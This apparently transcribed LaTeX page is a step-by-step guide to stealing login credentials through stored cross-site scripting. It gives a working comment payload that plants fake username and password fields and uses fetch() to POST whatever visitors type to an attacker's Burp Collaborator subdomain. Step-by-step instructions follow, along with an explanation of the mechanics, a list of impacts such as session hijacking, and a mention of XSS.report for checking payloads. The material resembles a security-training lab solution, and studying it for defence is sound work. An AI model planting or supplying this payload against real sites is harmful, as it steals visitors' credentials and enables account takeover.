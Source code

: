 \documentclass{article}
\begin{document}
\textbf{Using Burp Suite Collaborator to Steal Login Credentials}
\begin{enumerate}
\item Using Burp Suite Professional, go to the \textbf{Collaborator tab}
\item Click \texttt{"Copy to clipboard"} to copy a unique Burp Collaborator payload to your clipboard
\item Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
\begin{lstlisting}[frame=single]
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)
fetch('https://BURP-COLLABORATOR-SUBDOMAIN',
{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
\end{lstlisting}
\item This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server
\item Go back to the Collaborator tab, and click \texttt{"Poll now"}. You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again
\end{enumerate}

\underline{How This Attack Works:}
\begin{itemize}
\item Creates fake username and password input fields on the vulnerable page
\item The \texttt{onchange} event triggers when the user types their password
\item \texttt{if(this.value.length)} ensures the request is only sent when password field has content
\item Combines username and password with a colon separator in the POST body
\item Sends the credentials to the attacker's Collaborator server in real-time
\item Attacker can then use the stolen credentials to authenticate as the victim
\end{itemize}

\textbf{Security Impact:}
\begin{itemize}
\item \textbf{Session Hijacking}: Attacker gains full access to victim's account
\item \textbf{Credential Theft}: Attacker captures login credentials for other systems
\item \textbf{Identity Impersonation}: Attacker can perform actions as the victim
\item \textbf{Data Breach}: Potential access to sensitive user data
\end{itemize}
\textbf{Exploiting XSS Vulnerabilities Using XSS.report website}
\\XSS.report automatically verifies if submitted payloads successfully execute, providing immediate confirmation of vulnerability validity without manual testing.
\end{document}
